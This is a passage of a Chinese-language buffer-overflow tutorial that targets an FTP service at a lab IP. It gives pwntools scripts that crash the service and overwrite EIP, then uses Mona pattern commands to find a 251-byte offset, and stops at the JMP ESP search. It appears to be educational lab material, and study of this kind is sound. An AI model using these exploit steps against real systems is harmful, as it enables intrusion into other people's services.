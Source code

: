 ## 0x01 溢出

```python
#测试脚本
from pwn import *
p = remote("192.168.137.128", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3998ca97-30bd-4a8a-9dfc-dab229c82dd4/Untitled.png

EIP被覆盖为41414141，即AAAA，如果将这个AAAA替换成我们准备好的指令地址，就能执行任意指令，同时我们需要知道这个指令覆盖的偏移量，即这500个字符哪四个字符刚好可以覆盖EIP的位置。

## 0x02 偏移量

### Mona

```python
#生成500个垃圾字符
!mona pc 500
//Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
```

替换原有的垃圾字符

```python
from pwn import *
p = remote("192.168.137.128", 21)
#payload = 'A'*500
payload ='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'
p.sendline(payload)
p.interactive()
```

重新运行溢出脚本：EIP=34694133

```python
!mona po 34694133
#found in cyclic pattern at position 251
```

偏移量为251

## 0x03 跳板技术JMP ESP

查找jmp esp地址

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ebd9da0e-1ac2-4940-a0a8-5fd16cf70d41/Untitled.png
